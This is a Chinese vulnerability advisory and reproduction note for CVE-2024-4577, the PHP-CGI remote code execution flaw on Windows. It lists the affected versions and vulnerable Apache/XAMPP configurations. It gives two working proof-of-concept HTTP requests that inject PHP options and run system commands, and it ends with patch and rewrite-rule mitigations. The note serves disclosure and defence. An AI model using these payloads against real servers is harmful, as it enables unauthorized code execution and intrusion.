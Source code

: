 # PHP CGI Windows 平台远程代码执行漏洞 CVE-2024-4577

## 漏洞描述

PHP 在设计时忽略 Windows 中对字符转换的 Best-Fit 特性，当 PHP 运行在 Window 平台且使用了如下语系（简体中文 936/繁体中文 950/日文 932 等）时，攻击者可构造恶意请求绕过 CVE-2012-1823 保护，从而可在无需登陆的情况下执行任意 PHP 代码。

参考链接：

- https://ti.qianxin.com/vulnerability/notice-detail/1020?type=risk

## 漏洞影响

主要影响 PHP 在 Windows 操作系统上的安装版本：

```
PHP 8.3 < 8.3.8
PHP 8.2 < 8.2.20
PHP 8.1 < 8.1.29
```

查看 Windows 操作系统默认编码（936 为中文 GBK，65001 为 UTF-8）：

```
chcp
```

## 环境搭建

### 场景 1 - 在 CGI 模式下运行 PHP

在配置 Action 指令将相应的 HTTP 请求映射到 Apache HTTP Server 中的 PHP-CGI 可执行二进制文件时，可直接利用此漏洞。受影响的常见配置包括但不限于：

```
AddHandler cgi-script .php
Action cgi-script "/cgi-bin/php-cgi.exe"
```

或者

```
<FilesMatch "\.php$">
    SetHandler application/x-httpd-php-cgi
</FilesMatch>
 
Action application/x-httpd-php-cgi "/php-cgi/php-cgi.exe"
```

### 场景 2 - 公开 PHP 二进制文件（默认的 XAMPP 配置）

常见场景包括但不限于：

1. 将 php.exe 或复制 php-cgi.exe 到/cgi-bin/目录。
2. 通过指令公开 PHP 目录 ScriptAlias，例如，在 XAMPP 默认配置 `httpd-xampp.conf` 中：

```
ScriptAlias /php-cgi/ "C:/xampp/php/"
```

[官网](https://sourceforge.net/projects/xampp/files/XAMPP%20Windows/8.1.25/xampp-windows-x64-8.1.25-0-VS16-installer.exe) 搭建环境，php 版本 8.1.25。启动完成后，访问 `http://your-ip/dashboard` 即可看到 XAMPP 主页：

![](images/PHP%20CGI%20Windows%20平台远程代码执行漏洞%20CVE-2024-4577/image-20240612153916606.png)

## 漏洞复现

poc1：

```
GET /php-cgi/php-cgi.exe?%add+allow_url_include%3d1+%add+auto_prepend_file%3dphp://input HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36
REDIRECT-STATUS:1

<?php system("dir");?>
```

![](images/PHP%20CGI%20Windows%20平台远程代码执行漏洞%20CVE-2024-4577/image-20240612154037916.png)

poc2：

```
POST /php-cgi/php-cgi.exe?%add+allow_url_include%3don+%add+auto_prepend_file%3dphp%3a//input HTTP/1.1
Host: your-ip
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36
REDIRECT-STATUS:1

<?php system("dir");?>
```

![](images/PHP%20CGI%20Windows%20平台远程代码执行漏洞%20CVE-2024-4577/image-20240612154050322.png)

## 漏洞修复

### 安全更新

目前官方已有可更新版本，建议受影响用户升级至最新版本：

```
PHP 8.3 >= 8.3.8
PHP 8.2 >= 8.2.20
PHP 8.1 >= 8.1.29
```

注：由于 PHP 8.0、PHP 7 和 PHP 5 的分支已终止使用，并且不再维护，服务器管理员可以参考“缓解方案”中的临时补丁建议。

官方下载地址：

https://www.php.net/downloads.php

### 缓解方案

#### 1. 对于无法升级 PHP 的用户

以下重写规则可用于阻止攻击。需要注意的是，这些规则仅对繁体中文、简体中文和日语语言环境起到临时缓解作用。在实际操作中，仍然建议更新到补丁版本或迁移架构。

```
RewriteEngine On
RewriteCond %{QUERY_STRING} ^%ad [NC]
RewriteRule .? - [F,L]
```

#### 2. 对于使用 XAMPP for Windows 的用户

如果确认不需要 PHP CGI 功能，可以通过修改以下 Apache HTTP Server 配置来避免受到该漏洞的影响：

```
C:/xampp/apache/conf/extra/httpd-xampp.conf
```

找到相应的行：

```
ScriptAlias /php-cgi/"C:/xampp/php/"
```

并将其注释掉：

```
# ScriptAlias /php-cgi/"C:/xampp/php/"
```

